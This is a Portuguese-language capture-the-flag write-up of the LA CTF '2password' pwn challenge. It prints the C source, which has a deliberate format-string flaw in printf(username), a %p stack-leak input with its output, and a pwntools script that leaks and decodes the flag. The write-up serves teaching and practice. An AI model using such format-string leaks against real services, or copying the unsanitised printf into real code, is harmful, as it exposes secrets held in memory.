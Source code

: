 # WriteUp: 2password
## Descrição do Desafio:
**Autor:** kaiphait \
**Categoria:** pwn \
**Descrição:**
> 2Password > 1Password

### Arquivos
| Arquivo | Descrição |
| ------- | --------- |
| chall | Executável. |
| chall.c | Código-fonte. |
| Dockerfile | Arquivo docker. |
| ld-linux-x86-64.so.2 | Linker da *libc* |
| libc.so.6 | *libc* |
| solve.py | Script em Python que resolve o desafio. |

> 📥 **Download:** [Arquivos](https://github.com/HawkSecUnifei/Writeups/raw/refs/heads/main/2025/LA_CTF/2password/Arquivos.zip)

## Passo a Passo da Solução
### 1. Análise dos arquivos fornecidos
Este desafio fornece tanto o executável como o código-fonte dele. Olhando para o código fonte, notamos que é um código simples, ele apenas pede para inserirmos um usuário, uma senha 1, e por fim uma senha 2, sem nenhuma possibilidade de *overflow*.

Também notamos que a **flag** não é impressa na tela em nenhum momento, porém, há uma verificação entre o conteúdo dela e a senha 2.

{% code title="chall.c" overflow="wrap" lineNumbers="true" %}

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void readline(char *buf, size_t size, FILE *file) {
  if (!fgets(buf, size, file)) {
    puts("wtf");
    exit(1);
  }
  char *end = strchr(buf, '\n');
  if (end) {
    *end = '\0';
  }
}

int main(void) {
  setbuf(stdout, NULL);
  printf("Enter username: ");
  char username[42];
  readline(username, sizeof username, stdin);
  printf("Enter password1: ");
  char password1[42];
  readline(password1, sizeof password1, stdin);
  printf("Enter password2: ");
  char password2[42];
  readline(password2, sizeof password2, stdin);
  FILE *flag_file = fopen("flag.txt", "r");
  if (!flag_file) {
    puts("can't open flag");
    exit(1);
  }
  char flag[42];
  readline(flag, sizeof flag, flag_file);
  if (strcmp(username, "kaiphait") == 0 &&
      strcmp(password1, "correct horse battery staple") == 0 &&
      strcmp(password2, flag) == 0) {
    puts("Access granted");
  } else {
    printf("Incorrect password for user ");
    printf(username);
    printf("\n");
  }
}
```

{% endcode %}

O interessante desse código, é que no final dele, caso uma das verificações de usuário e senha tenha falhado, é impresso o `username` por meio da função `printf(username)`. E isso é uma vulnerabilidade de *format string*, porque dessa forma nós podemos inserir formatos na variável do usuário que imprimirão o conteúdo da pilha, e como o conteúdo da **flag** é carregado para uma variável local antes da verificação, ela estará na pilha.

### 2. Exploit
A solução é bem simples, devemos encontrar a posição na qual a **flag** começa a aparecer na pilha e com isso vazar seu conteúdo. Executando o código, e digitando vários caracteres de formato, encontramos a **flag** na posição 6 da pilha.

{% hint style="info" %}

**Nota:** No meu caso, o arquivo **flag.txt** contém o valor `ABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBA`, por isso que a saída na pilha é um monte de `0x42` e `0x41`.

{% endhint %}

```bash
Enter username: %p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p
Enter password1: NADA
Enter password2: NADA
Incorrect password for user 0x7ffc38b83a20-(nil)-(nil)-0x1c-(nil)-0x4242424242424241-0x4242424242424242-0x4242424242424242-0x4242424242424242-0x4242424242424242-0x1800041
```

{% code title="solve.py" overflow="wrap" lineNumbers="true" %}

```py
from pwn import *

elf = context.binary = ELF("./chall")
p = remote("ip", porta)
#p = process()

# Montando payload, flag começa no 6.
payload = ""
for i in range(6, 9):
    payload += f"%{i}$p-"
payload = payload.encode()

# Enviando payload.
p.sendlineafter(b"username:", payload)
p.sendlineafter(b"password1:", b"CCCCCCCC")
p.sendlineafter(b"password2:", b"CCCCCCCC")

# Montando a flag.
p.recvuntil(b"user")
flag = ""
flag_leak = p.recvline().decode().split("-")[:-1]

flag = b''.join(
    int(x.strip(), 16).to_bytes((len(x.strip()) - 2 + 1) // 2, 'little')
    for x in flag_leak
).decode(errors='ignore')

print(flag)
```

{% endcode %}

{% hint style="info" %}

**Nota:** O valor 9 na instrução `range(6, 9)` foi encontrado depois de vazar a **flag** pela primeira vez, inicialmente o valor era 11, já que no código-fonte a **flag** era carregada para uma *string* de 42 caracteres.

{% endhint %}

### Flag
`lactf{hunter2_cfc0xz68}`

## Autor da WriteUp
[Membro de Exploitation - HenriUz](https://github.com/HenriUz)